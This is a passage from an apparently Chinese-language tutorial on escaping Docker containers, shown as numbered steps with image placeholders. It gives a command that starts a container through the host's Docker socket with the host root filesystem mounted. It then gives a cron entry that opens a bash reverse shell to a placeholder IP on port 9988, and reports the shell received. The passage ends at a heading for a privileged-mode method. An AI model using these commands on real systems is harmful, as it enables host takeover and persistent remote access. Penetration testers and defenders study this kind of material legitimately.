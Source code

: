 ![](images/format,png.jpeg)

5、运行一个新容器并挂载宿主机根路径

```
docker -H unix:///host/var/run/docker.sock run -v /:/aa -it ubuntu:14.04 /bin/bash 
```

![](images/format,png.jpeg)

6、在新容器 / nuoyan 路径下完成对宿主机资源的访问

![](images/format,png-163410875271332)

7、写入计划任务文件，反弹 shell

```
echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/9988 0>&1' >> /nuoyan/var/spool/cron/root 
```

![](images/format,png-163410875271333)

成功接收到宿主机反弹的 shell

![](images/format,png-163410875271334)

3、特权模式
------
